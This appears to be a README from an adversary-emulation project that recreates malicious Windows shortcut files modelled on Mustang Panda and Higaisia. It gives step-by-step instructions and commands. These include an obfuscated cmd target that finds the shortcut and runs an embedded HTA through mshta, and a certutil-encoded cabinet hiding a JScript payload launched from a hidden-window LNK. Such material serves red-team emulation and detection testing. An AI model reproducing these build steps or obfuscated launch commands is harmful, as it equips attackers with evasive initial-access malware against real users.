 # LNKs

|Name|Description|
|--|--|
|Mustang Panda|Calls MSHTA on itself to execute an embedded HTA|
|Higaisia|Drops an embedded base64-encoded cabinet file to disk, decodes it, extracts a JScript file from the cabainet, then executes the script with WScript|

## Steps to Reproduce

### Mustang Panda

1. create a shortcut
2. create an HTA file containing your code
	- included is the HTA used in the provided lnk
3. concatenate the two files together (lnk first)
	- > cmd> copy file.lnk+file.hta newfile.lnk
4. In the new lnk's target property, set the following command (replace mustang.lnk with the new LNK's filename):

	```
	C:\Windows\System32\cmd.exe /c %comspec% /c f%windir:~-3,1%%PUBLIC:~-9,1% %x in (%temp%=%cd%) do f%windir:~-3,1%%PUBLIC:~-9,1% /f "delims==" %i in ('dir "%x\mustang.lnk" /s /b') do start %TEMP:~-2,1%%windir:~-1,1%h%TEMP:~-13,1%%TEMP:~-7,1%.exe "%i"
	``` 
5. (optional) set the LNK's run property to "minimized"


### Higaisia

1. Create a cabinet file of the higaisia.js file and any other file (e.g. an empty text file; minimum 1 additional file)
	- > cmd> makecab /F files.txt /d CabinetName1=file.cab /D DiskDirectoryTemplate=<path to dir>
		- files.txt = list of files
		- put the directory where you want to store the cab as the directory template
2. Base64 encode the cabinet
	- > cmd> certutil -encode file.cab file.cab.b64
		- delete the certificate lines from the new file (first and last), then delete all newlines, finally add a newline at the start of the file
3. Create a shortcut file. Since the command will be longer than the GUI allows, use PowerShell 
	- example:
		```
		ps> $wssh = new-object -comobject wscript.shell
		$lnk = $wssh.createshortcut("path1\base.lnk")
		$lnk.windowstyle = "7"
		$lnk.targetpath = "C:\Windows\System32\cmd.exe"
		$lnk.arguments = (gc path2\higaisia.bat)
		$lnk.save()
		```
		- path1 = where you want to save the lnk
		- path2 = path where higaisia.bat is location (this directory)
		- higaisia.bat assumes the lnk will be called higaisia.lnk - change as needed
4. Concatenate the lnk and base64
	- > cmd> copy /b file.lnk+file.cab higaisia.lnk

